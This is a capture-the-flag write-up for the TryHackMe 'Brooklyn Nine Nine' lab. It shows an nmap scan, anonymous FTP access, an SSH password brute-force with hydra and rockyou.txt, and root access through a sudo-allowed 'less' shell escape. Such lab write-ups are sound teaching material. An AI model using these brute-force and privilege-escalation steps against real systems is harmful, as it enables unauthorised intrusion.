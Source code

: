 # Brooklyn Nine Nine | https://tryhackme.com/room/brooklynninenine
![b99](https://i.imgur.com/hJToewe.png)



## Enumeration 
```
nmap -v -A -T4 -p- 10.10.147.67

21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

We have ftp anon login so next ftp to it and get the note_to_jake.txt.
```
![b99](https://i.ibb.co/m9139St/d.png)

```
~$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
so weak password huh? 
``
fredi@index:~$ hydra -l jake -P wordlists/rockyou.txt ssh://10.10.239.250 -t 20
attacking ssh://10.10.239.250:22/
[22][ssh] host: 10.10.239.250   login: jake   password: <redacted>
``
Then ssh into the machine.
:~$ ssh jake@10.10.239.250

## Priviledge Escalation
```
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
    ``` 
so no need for sudo password for "less" ok.
https://gtfobins.github.io/gtfobins/less/

jake@brookly_nine_nine:~$ sudo less /etc/profile
!/bin/sh

And Thats IT we have root ! Now go get the flags!

